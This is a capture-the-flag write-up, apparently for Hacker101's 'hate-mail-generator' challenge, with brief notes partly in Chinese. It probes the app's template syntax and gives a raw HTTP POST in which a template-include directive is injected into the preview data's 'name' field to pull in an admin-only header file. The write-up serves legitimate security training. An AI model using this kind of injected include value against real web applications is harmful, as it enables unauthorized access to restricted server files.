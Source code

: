 # hate-mail-generator

Sending letters is so slow! Now the grinch sends his hate mail by email campaigns! Try and find the hidden flag!

## Guess What

例子Guess What的内容： 

```
{{template:cbdj3_grinch_header.html}} Hi {{name}}..... Guess what..... <strong>YOU SUCK!</strong>{{template:cbdj3_grinch_footer.html}}
```

在create->previes尝试其他template文件：  
```
{{template:test}}
```

## preview
```
POST /hate-mail-generator/new/preview/ HTTP/1.1
Host: f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Length: 126
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="105", "Not)A;Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.5195.102 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://f9a13d7dbbdf5fa6d8410d6f9f9d9e10.ctf.hacker101.com/hate-mail-generator/new/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

preview_markup=Hello {{name}}+....&preview_data={"name":"{{template:38dhs_admins_only_header.html}}","email":"alice@test.com"}
```

